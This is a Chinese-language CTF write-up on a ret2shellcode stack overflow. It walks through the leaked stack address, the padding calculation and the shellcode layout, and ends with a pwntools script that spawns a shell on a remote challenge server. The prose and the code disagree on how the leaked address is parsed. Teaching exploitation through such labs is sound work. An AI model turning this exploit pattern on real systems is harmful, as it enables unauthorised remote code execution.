先将附件下载到Ubuntu中：

发现也是没开什么保护
把附件在ida中打开，看main函数

程序先把v4地址输出了，然后gets(v4)，首先这个是没有开NX保护的我们可以执行栈 而且程序把栈的的地址输出 我们可以接收程序输出的栈地址 然后向栈中输入shellcode 再通过栈溢出去跳到输入shellcode的位置 最终获取shell
本题中他把v4的地址输出之后 我们可以获得这个地址 然后把shellcode通过这个get函数来放入到这个v4里面 然后通过栈溢出 去控制执行流 来返回到v4的地址 执行shellcode
用栈模拟图来演示一下这个过程：
  

那有了思路我们开始实现，首先padding从ida中可知道是0x70+8
然后生成shellcode:因为这是64位 先是shellcode=shellcraft.amd64.sh()一开始是汇编代码，前面加个asm包装 将它变成字符字节的形式 才能被发送


再说一下接受输出的栈地址 我们运行一下这个程序

先p.recvline()接收一行包括最后的换行符 所以我们就需要在后面加一个[:-1]把最后一个“\n”切掉 然后遗留下来的就是我们的V4地址 
但是上面接受的是V4地址的字符串 然后需要用int函数将他变为整型

是10进制，然后我们将地址用hex()包裹起来转化为十六进制发现就是v4地址


然后我们介绍一个函数ljust 我们先来演示一下

再看一下他们的长度大小：

发现shellcode在垃圾数据的左面 以shellcode和垃圾数据的先后顺序 共同组合打包覆盖掉缓冲区和rbp的位置 并且两个加起来的长度刚好等于padding(120)
当然有ljust也有rjust 是将shellcode放在垃圾数据的右面 是先垃圾数据再shellcode并且两个一共的长度也为padding，但是在本题中不需要用到这个，以下是rjust的演示：


那我们直接编写exp:
```python
from pwn import*
context(arch='amd64',os='linux')
#p=process('./pxa')
p=remote('1.95.36.136',2054)

shellcode=asm(shellcraft.amd64.sh())

v4_addr=int(p.recvline()[:-1], 16)
payload=shellcode.ljust(120, b'a')+p64(v4_addr)
p.sendline(payload)
p.interactive()
```
最后成功拿到flag：
